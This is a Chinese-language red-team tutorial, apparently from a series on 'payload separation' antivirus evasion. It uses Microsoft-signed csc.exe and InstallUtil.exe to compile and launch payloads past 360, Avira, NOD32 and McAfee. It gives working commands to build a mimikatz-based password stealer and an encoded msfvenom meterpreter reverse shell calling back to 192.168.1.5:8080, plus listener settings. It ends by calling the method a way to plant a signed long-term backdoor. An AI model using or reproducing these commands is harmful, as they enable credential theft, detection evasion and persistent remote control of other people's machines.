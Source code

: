 payload 分离免杀思路第一季是专门针对 x32 系统，以及针对 xp 包括以下版本。而在实战中，目标机器多为 Windows7 以上版本。而服务器以 x64 位居多。在第一季中，借助了非微软自带第三方来执行 Shellcode，这一季采取调用微软自带来执行 Shellcode，这里就会有一个好处，调用自带本身一定就会有微软的签名，从而绕过反病毒软件。

### 介绍相关概念：
Windows 自 Windows XP Media Center Edition 开始默认安装 NET Framework，直至目前的 Windows 10，最新的默认版本为4.6.00081.00。随着装机量，最新默认安装版本为4.7.2053.0。

### csc.exe：
C# 的在 Windows 平台下的编译器名称是 Csc.exe，如果你的 .NET FrameWork SDK 安装在 C 盘，那么你可以在 `C:\WINNT\Microsoft.NET\Framework\xxxxx` 目录中发现它。为了使用方便，你可以手动把这个目录添加到 Path 环境变量中去。用 Csc.exe 编译 HelloWorld.cs 非常简单，打开命令提示符，并切换到存放 test.cs 文件的目录中，输入下列行命令: `csc /target:exe test.cs`将 Ttest.cs 编译成名为 test.exe 的 console 应用程序
```bash
//test.cs
using System; 
class TestApp 
{
    public static void Main()
    {
    Console.WriteLine("Micropoor!");
    }
}
```

### InstallUtil.exe：
微软官方介绍如下：
> The Installer tool is a command-line utility that allows you to install and uninstall server resources by executing the installer components in specified assemblies. This tool works in conjunction with classes in the System.Configuration.Install namespace.
> This tool is automatically installed with Visual Studio. To run the tool,use the Developer Command Prompt (or the Visual Studio Command Prompt in Windows7). For more information, see Command Prompts.
https://docs.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool

关于两个文件默认安装位置：（注意x32，x64区别）
```bash
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
C:\Windows\Microsoft.NET\Framework\
C:\Windows\Microsoft.NET\Framework64\
```
文章采取2种demo来辅助本文中心思想。

### demo1：

以抓密码为例：测试环境：目标A机安装了 360 套装。目标机 B 安装了小红伞，NOD32。目标机安 C 装了麦咖啡。  
生成秘钥：  
![](/img/cf8406093e5dbf031342ac48beecbb20.jpg)

执行：
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.EnterpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Micropoor.exe /keyfile:C:\Users\Johnn\Desktop\installutil.snk /unsafe
C:\Users\Johnn\Desktop\mimi.cs
```
![](/img/b24b55a30609a64e9ae6eedd59669600.jpg)

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Johnn\Desktop\Micropoor.exe
```
![](/img/54e053d6ba6b7ddf3ecff38b2e4b554c.jpg)  

![](/img/14d88766fa1337b2a7a1f4fcd0e41e7b.jpg)

### demo2：
以msf为例：  
生成shllcode
```bash
msfvenom --platform Windows -a x64 -p windows/x64/meterpreter/reverse_tcp_uuid LHOST=192.168.1.5 LPORT=8080 -b '\x00' -e x64/xor -i 10 -f csharp -o ./Micropoor.txt
```
![](/img/60dc9d8d0c0d3716c0111382fda0880f.jpg)  

![](/img/06b4768ab7fb03e67d866bfa3535a8d0.jpg)

替换shellcode。  
![](/img/1981b698893f18b579b053c1c47cbbb5.jpg)

编译：
```bash
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe /unsafe /platform:x64 /out:Micropoor.exe M.cs
```
![](/img/44a48a754a1077975cf9f7245474d6f4.jpg)

运行：
```bash
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
```
![](/img/2e2468278724012a07b672ba28994b41.jpg)

**注：在实际测试的过程，起监听需要配置一些参数，防止假死与假session。**  

```bash
msf exploit(multi/handler) > set exitonsession false 
exitonsession => false
msf exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true
msf exploit(multi/handler) >
msf exploit(multi/handler) > set Stageencoder x64/xor 
Stageencoder => x64/xor
msf exploit(multi/handler) > set stageencodingfallback false
stageencodingfallback => false
msf exploit(multi/handler) > exploit -j -z
```
![](/img/e0546970d950f42b600bc2c6822981e2.jpg)

上线：  
![](/img/c77a11ea1cd8acacd645ffd057050d18.jpg)


mimi.cs 953.71 KB
shllcode.cs


>   后者的话：该方法可以做一个带签名的长期后门。
> 
>   Micropoor
